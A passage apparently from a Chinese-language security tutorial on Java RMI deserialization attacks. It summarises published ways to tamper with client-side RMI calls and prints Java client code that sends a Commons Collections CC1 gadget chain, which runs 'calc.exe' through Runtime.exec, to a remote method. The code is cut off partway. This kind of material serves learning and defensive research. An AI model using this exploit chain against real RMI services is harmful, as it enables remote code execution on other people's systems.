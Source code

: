     > 答案是可以的，在 mogwailabs 的 [PPT](https://github.com/mogwailabs/rmi-deserialization/blob/master/BSides Exploiting RMI Services.pdf) 中提出了以下 4 种方法：
    >
    > - 通过网络代理，在流量层修改数据
    > - 自定义 “java.rmi” 包的代码，自行实现
    > - 字节码修改
    > - 使用 debugger
    >
    > 并且在 PPT 中还给出了 hook 点，那就是动态代理中使用的 `RemoteObjectInvocationHandler#invokeRemoteMethod()`。
    > Afant1 师傅使用了 Java Agent 的方式，在[这篇文章](https://www.anquanke.com/post/id/200860)里。0c0c0f 师傅使用了流量层的替换，在[这篇文章](https://mp.weixin.qq.com/s/TbaRFaAQlT25ASmdTK_UOg)里，有兴趣的师傅请自行查看。
    
3. 那首先为了不让编译器报错，客户端可以先重载方法（客户端和服务端接口不是实时同步更新的）：
    ![image-20250312140017452](RMI/image-20250312140017452.png)
    然后客户端发起请求：

    ```java
    public static void main(String[] args) throws Exception {
        // 通过注册中心连接到服务器
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        // 通过服务名查找服务，并转型成接口
        IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
        // 调用方法
        // myRemote.saySth("Hello");
    
        // 通过 Object 类型传入恶意类
        attackByObject(myRemote);
    }
    /**
     * 通过 Object 类型传入恶意类
     */
    public static void attackByObject(IMyRemote myRemote) {
        try {
            // 这里不用对恶意类序列化，因为 RegistryImpl_Stub 会对其进行序列化
            myRemote.saySth(getSerializedCC1Object());
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    // CC1，注意 JDK 版本
    public static Object getSerializedCC1Object() throws Exception {
        // 1. 构造链
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
        Transformer transformedChain = new ChainedTransformer(transformers);
    
